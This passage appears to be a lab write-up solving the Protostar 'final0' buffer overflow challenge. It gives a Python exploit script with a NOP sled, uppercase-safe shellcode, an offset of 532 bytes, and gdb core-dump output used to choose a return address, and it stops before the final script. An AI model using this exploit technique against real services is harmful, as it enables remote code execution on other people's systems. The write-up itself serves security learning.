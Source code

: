 
From this, we can see that the final buffer, after the "toupper()" and "strdup()" is located at 0xbffffab8.  We now have the option of putting the shellcode before or after the return address.   

Before
------

I setup a quick python script to use the offset of 532 bytes, added a little bit of a nop sled and shellcode.  Since the code uses a "toupper()", the shellcode can't contain any lowercase letters.  I luckily was able to find some shellcode that suits this scenario perfectly [here](http://www.exploit-db.com/exploits/13427).

```
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 2995))

offset = 532

ret = "\xEF\xBE\xAD\xDE"
nop = "\x90"*16

shellcode = "\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff" \
"\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47" \
"\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xed" \
"DBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKB" \
"AFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIA" \
"JDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJO" \
"BLAALMNIA"

junk = "a"*(offset-len(nop)-len(shellcode))

s.send(nop + shellcode + junk + ret)
```

After running that script, I was able to debug the dump file. This allowed me to get the address to return to, containing the nop sled and shellcode.

```
root@protostar:/home/user# gdb --quiet --core=/tmp/core.11.final0.14816 
Core was generated by `/opt/protostar/bin/final0'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) x/10x 0xbffffabf
0xbffffabf: 0x90909090 0x90909090 0xeb02eb90 0xfff9e805
0xbffffacf: 0x815fffff 0xffffdfef 0x295e57ff 0xb8c180c9
0xbffffadf: 0x412c078a 0x4704e0c0
```

Given this information, it should be pretty safe to use 0xbffffabf as a return address.  The final script would be:
